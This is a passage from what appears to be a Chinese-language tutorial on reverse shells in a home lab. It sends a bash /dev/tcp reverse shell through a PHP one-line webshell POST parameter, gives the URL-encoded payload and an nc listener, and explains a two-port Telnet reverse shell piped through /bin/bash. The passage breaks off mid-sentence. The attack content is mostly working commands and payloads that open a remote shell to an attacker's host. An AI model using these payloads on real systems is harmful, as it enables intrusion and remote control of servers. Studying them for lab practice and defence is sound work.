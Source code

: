 ![image-20210802194728768](https://{{site.PicturesLinks_Domain}}/images/2021/08/02/20210802194735.png)

此时我的主机相对该目标执行机的IP为192.168.17.1，将使用我的主机的60000端口号进行反弹Shell的接收，则构造的传参应是：

```bash
onetalk=system('bash -i >& /dev/tcp/192.168.17.1/60000 0>&1');
```

由于待传的POST参数中含有“&”符号，此时若我们直接使用进行传参则易造成命令的丢失，故需要进行编码处理，使用URL编码即可，最终的POST参数Body如下：

```POST
onetalk=system('bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.17.1%2f60000%200%3e%261%20');
```

我们先在攻击机上使用nc命令监听：

![image-20210802201608476](https://{{site.PicturesLinks_Domain}}/images/2021/08/02/20210802201608.png)

然后将POST提交，此时，窗口就获得了对应WEB站点的Shell了，如图：

![image-20210802201813078](https://{{site.PicturesLinks_Domain}}/images/2021/08/02/20210802201813.png)

此处你就获得了www用户的Shell，此处由于我的PHP程序守护运行的用户为www，故权限不会太高。

### 2、Telnet反弹

#### 第一种

攻击机开启两个终端，分别执行监听：

```bash
nc -lvvp port1
```

和

```bash
nv -lvvp port2
```

目标机执行：

```bash
telent x.x.x.x port1 | /bin/bash | telnet x.x.x.x port2
```

监听2个端口分别用来输入和输出，其中x.x.x.x均为攻击者IP。

##### 命令原理

telnet在攻击者主机x.x.x.x及port1开启监听用户，并将此处Telnet的标准输入通过管道符传给后面命令`/bin/bash`执行，再将`/bin/bash`的输出结果作为后面`telnet`的输入。此时通过两个端口，一个接收用户输入，通过`/bin/bash`处理后再由另一个端口输出。

##### 演示测试

> 此处在PHP一句话木马中测试连接始终未成功，经发现，一句话木马传参到后台执行时，命令变成了：`sh -c telnet 192.168.17.1 60000 | /bin/bash | telnet 192.168.17.1 60001`。出现60000端口总是断连，只有60001端口。故直接将该命令在终端中执行演示。

根据上述说明，构造传参为：
